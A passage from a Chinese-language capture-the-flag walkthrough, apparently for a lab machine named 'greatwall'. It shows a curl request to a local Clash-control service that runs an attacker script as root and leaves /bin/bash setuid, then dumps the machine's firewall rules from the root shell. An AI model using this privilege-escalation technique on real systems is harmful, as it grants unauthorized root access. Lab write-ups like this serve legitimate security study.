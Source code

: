 这是由于无意间写成了`https`。。。。。

```bash
wall@greatwall:/tmp$ curl -X POST -H 'Content-Type: application/json' -d '{
"core_type":"verge-mihome",
"bin_path":"/tmp/exp.sh",
"config_dir":"1",
"config_file":"/tmp/exp.sh",
"log_file":"/tmp/clash.log"
}' 'http://127.0.0.1:33211/start_clash'
{"code":0,"msg":"ok","data":null}
wall@greatwall:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 30  2024 /bin/bash
wall@greatwall:/tmp$ cat clash.log 
Spawning process: /tmp/exp.sh -d 1 -f /tmp/exp.sh
```

这意味着上面的curl命令可以进行适当修改，也能完美生效了，下面阔以提权了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103386.png" alt="image-20250619005657000" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103387.png" alt="image-20250619005723134" style="zoom:50%;" />

可爱捏。。。。。

## 一些隐藏信息的搜集

关于禁止流量出站的相关配置，进行查找一下：

```bash
bash-5.2# iptables -L
bash: iptables: command not found
bash-5.2# cat /etc/iptables/*
# Generated by iptables-save v1.8.9 (nf_tables) on Sun May 11 02:22:38 2025
*filter
:INPUT DROP [1:48]
:FORWARD DROP [0:0]
:OUTPUT DROP [4:176]
-A INPUT -i lo -j ACCEPT
-A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A OUTPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 80 -j ACCEPT
COMMIT
# Completed on Sun May 11 02:22:38 2025
```

限制了出战进站流量。。。。。

